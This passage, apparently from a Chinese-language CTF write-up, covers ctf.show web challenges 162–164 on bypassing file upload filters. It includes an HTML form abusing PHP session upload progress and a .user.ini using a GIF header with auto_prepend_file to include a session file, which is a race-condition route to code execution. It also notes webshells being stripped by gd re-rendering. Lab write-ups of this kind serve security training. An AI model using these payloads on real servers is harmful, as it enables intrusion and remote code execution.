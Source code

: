 当 `session.upload_progress.cleanup = On` 的话比较麻烦, 因为要条件竞争

upload.html

```html
<form action="http://9db88424-f6af-4562-8975-4d99539c2149.challenge.ctf.show/upload.php" method="POST" enctype="multipart/form-data">
<input type="text" name="PHP_SESSION_UPLOAD_PROGRESS" value="xxx" />
<input type="file" name="file" id="file" />
<input type="submit" name="submit" value="submit" />
</form>
```

.user.ini

```ini
GIF89a
auto_prepend_file=/tmp/sess_123
```

header 改 `Cookie: PHPSESSID=123` 上传即可

测试了好几次都不行, intruder 线程多一点就503, 少一点就竞争不了

b站的视频是非预期解 [https://www.bilibili.com/video/BV1Qf4y1u7cU](https://www.bilibili.com/video/BV1Qf4y1u7cU)

利用 IP 长地址, 不过访问了一下发现 index 文件已经被改回去了

IP 长地址转换 [https://www.bejson.com/convert/ip2int/](https://www.bejson.com/convert/ip2int/)

手头上没有 vps, 这题先放着...

## web163

同上

## web164

图片上传后被重命名, 必须上传真实的图片文件, 而且只允许上传 png

![20220803194700](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803194700.png)

`http://b16c225d-f117-436b-9f62-11758ba84604.challenge.ctf.show/download.php?image=fb5c81ed3a220004b71069645f112867.png`

上传成功后右键查看 PHP 一句话消失了, 估计是二次渲染

download.php 猜测是文件包含

PHP 通过 gd 库实现二次渲染

```
imagecreatefromgif()
imagecreatefromjpeg()
imagecreatefrompng()
...
```
